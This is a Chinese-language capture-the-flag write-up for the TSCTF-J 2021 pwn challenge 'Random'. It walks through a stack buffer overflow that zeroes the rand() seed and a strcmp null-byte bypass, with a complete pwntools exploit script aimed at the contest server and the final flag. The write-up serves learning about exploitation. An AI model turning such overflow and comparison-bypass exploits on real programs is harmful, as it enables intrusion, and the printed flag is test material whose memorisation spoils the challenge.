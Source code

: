 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Random WriteUp
date: 2021-10-30
tags: ['TSCTF-J_2021', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 分析

使用 IDA 打开, 发现题目要求我们输入正确10次C产生的随机数, 接着需要再输入正确的`/dev/urandom`产生的随机字节数据流

### 初期资料

#### rand()
`rand()`函数每次调用前都会查询是否调用过`srand(seed)`，是否给`seed`设定了一个值，如果有那么它会自动调用`srand(seed)`一次来初始化它的起始值
若之前没有调用`srand（seed）`，那么系统会自动给`seed`赋初始值，即`srand（1）`自动调用它一次

<!--truncate-->

#### /dev/urandom

`/dev/urandom`是Linux系统中提供的随机伪设备，任务是提供永不为空的随机字节数据流。



既然`rand()`是根据随机数种子`seed`生成随机数，那么只要`seed`相同，不就可以生成一样的随机数了么？



### 分析代码

#### 第一个随机

我们可以发现*buf*的长度是*22*, 却可以读入*0x30bytes*的数据

![read函数](https://cdn.novanoir.moe/img/image-20211025093806860.png)

观察栈堆，可以发现*buf*与*seed*只相距*0x18*个字节, 则我们可以考虑栈溢出覆盖随机数种子

![栈堆](https://cdn.novanoir.moe/img/image-20211025094037688.png)

#### 第二个随机

这里就略有难度了。搜索的时候我发现了一个通过填充`\x00`使`strlen=0`直接跳过`strncmp`的方法，但这个显然不适合我们的`strcmp`

![第二个随机](https://cdn.novanoir.moe/img/image-20211025095441204.png)

但`strcmp`工作原理是这样的：

> strcmp: 两个字符串自左向右逐个字符相比（按ASCII值大小相比较），直到出现不同的字符或遇'\0'为止。

也就是说, 如果*s*是以`\x00`开头的话, 我们的`strcmp`就会返回0, 而不用管后面的数据和`buff`是什么。

这也就是真正的random - 让`/dev/urandom`生成以`\x00`开头的字节数据流。

### 编写脚本

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
def burp():
    sh = remote("173.82.120.231", 10000) 
    # sh = process("./randomn") # 在本地测试的时候不知道为什么会报EOFError, 只好连接服务器跑脚本 （问了一哈可能是Ubuntu20.04LTS的程序保护问题）
    libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # 引用库文件
    payload = '\x00' * 0x20 # 既然我们的数据都只与buf和seed有关，不如直接全用\x00填充掉
    sh.sendlineafter("ranqom...",payload)
    libc.srand(1) # 用0和用1作为seed结果是一样的
    for i in range(10):
    	a = libc.rand()%100
    	sh.sendlineafter("is the number?\n", str(a))
    
    # Random_2
    payload = '\x00' # 随便填充一个啦
    sh.sendafter("THIS!??!!", payload)
    print(sh.recvline()) # 会有一个空行所以print了一下，其实也没有必要（）
    respon = str(sh.recvline())
    print(respon)
    if 'LUuUncky' in respon:
    	sh.interactive()
    else:
    	burp()
burp()
```

> 这里有一个小细节, 我们把`seed`用`\x00`填充后，`rand()`函数会自动调用`srand(1)`一次, 而其实`srand(1)`和`srand(0)`的结果是相同的
>
> 关于这里我在[stackoverflow](https://stackoverflow.com/questions/8049556/what-s-the-difference-between-srand1-and-srand0)上找到了一篇文章
>
> > How glibc does it:
> >
> > >  [around line 181 of glibc/stdlib/random_r.c](http://sourceware.org/git/?p=glibc.git;a=blob;f=stdlib/random_r.c;h=51a2e8c812aee78783bd6d38c1b6269d41c8e47e;hb=HEAD#l181), inside function `__srandom_r`
> >
> > ```csharp
> >   /* We must make sure the seed is not 0.  Take arbitrarily 1 in this case.  */
> >   if (seed == 0)
> >     seed = 1;
> > ```
> > But that's just how glibc does it. It depends on the implementation of the C standard library.

于是接下来就是漫长的爆破环节了，只能说运气是真的不好，爆破了一个多小时，让我一度以为脚本写的有问题（）

![后半段](https://cdn.novanoir.moe/img/image-20211025104934165.png)

经过漫长的等待终于拿到了FLAG`o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`，但只有后半段？怎么会事呢？

仔细研究IDA才发现，前半段其实在第一次random随机的时候就给出了（但是我由于觉得log等级debug的东西太多了在跑的时候给他注释掉了）

![前半段_IDA](https://cdn.novanoir.moe/img/image-20211025101006065.png)

于是再跑一次前半段，得到前半段flag`TSCTF-J{G0`

![前半段](https://cdn.novanoir.moe/img/image-20211025101032214.png)

拼接一下就有完整的FLAG了：

`TSCTF-J{G0o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`

